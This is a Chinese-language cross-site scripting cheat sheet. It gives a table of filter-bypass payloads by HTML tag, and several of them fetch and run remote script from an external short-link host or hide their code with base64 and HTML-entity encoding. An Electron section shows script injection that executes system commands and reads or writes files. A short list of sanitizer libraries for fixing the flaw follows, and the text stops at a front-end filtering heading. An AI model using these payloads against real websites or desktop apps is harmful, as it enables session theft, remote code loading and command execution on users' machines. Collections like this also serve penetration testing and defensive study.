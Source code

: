 ## 0x01 XSS漏洞简介

### 1.1 漏洞场景

​	跨站脚本攻击是指恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

## 0x02 XSS漏洞检测

### 2.1 Bypass

| 标签     | 测试脚本                                                     |
| -------- | ------------------------------------------------------------ |
| svg      | `<svg onload=eval($.get("//t.cn/R5iR4NG")) style=display:none>`<br/>`<svg onload=a=decodeURIComponent("http%3A%2F%2Ft.cn%2FR5iR4NG");$.getScript(a) style=display:none>` |
| img      | `<img src=x style=display:none onerror=s=createElement('script');body.appendChild(s);s.src='//t.cn/R5iR4NG';>` |
| isindex  | `<isindex type=image src=x onerror=alert(/xss/)>`            |
| a        | `<a title='x' onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px></a>` |
| select   | `<select autofocus onfocus=alert(document.domain)>`          |
| textarea | `<textarea autofocus onfocus=alert(document.domain)>`        |
| keygen   | `<keygen autofocus onfocus=alert(document.domain)>`          |
| body     | `<body onload=prompt(document.domain);>`                     |
| embed    | `<embed src="javascript:alert(document.domain)"/>`           |
| video    | `<video><source onerror="javascript:alert(document.domain)">` |
| object   | `<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=">` |
| iframe   | `<iframe src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiSGVsbG8iKTs8L3NjcmlwdD4=>` |
| meta     | `<meta http-equiv="refresh" content="0; url=data:text/html,%3Cscript%3Ealert%281%29%3C%2fscript%3E">` |
| b        | `<b oncut = alert()>`                                        |
| script   | `<script src=test.jpg>`                                      |
| script   | `<script>z="alert"</script><br/><script>z=z+"(123)"</script><br/><script>eval(z)</script>` |
| div      | `<div id="x">alert%28document.cookie%29%3B</div><br/><p>eval(unescape(x.innerHTML));</p>` |
| script   | `<script>window.open('https://vulnerablesite.com/users/eval(atob(window.name))','YWxlcnQoL3hzcy8p')</script>` |
| script   | `<script>eval.call`${'prompt\x281)'}`</script>`              |
| svg      | `<svg><script>&#112;&#114;&#111;&#109;&#112;&#116;&#40;&#47;&#120;&#115;&#115;&#47;&#41;</script>` |

### 2.2 Electron

​	electron是一个流行的桌面应用开发框架，允许开发者使用web技术和nodejs结合来迅速开发桌面应用，因为引入了JS，所以也引入了XSS漏洞。

- 系统命令

```
<script>require("child_process").exec("calc.exe")</script>
```

- 读写文件

```
<script>require('fs').writeFile('hack.txt','xxxx')</script>
<script>require('fs').readFileSync('c:\\windows\\php.ini')</script>
```

## 0x03 XSS漏洞修复

### 3.1 服务端过滤

- Java：https://owasp.org/www-project-java-html-sanitizer/‘
- .NET：https://github.com/mganss/HtmlSanitizer
- Golang：https://github.com/microcosm-cc/bluemonday
- PHP：http://htmlpurifier.org/
- Python：https://pypi.python.org/pypi/bleach
- Django框架（Python）：https://github.com/shaowenchen/django-xss-cleaner

### 3.2 前端过滤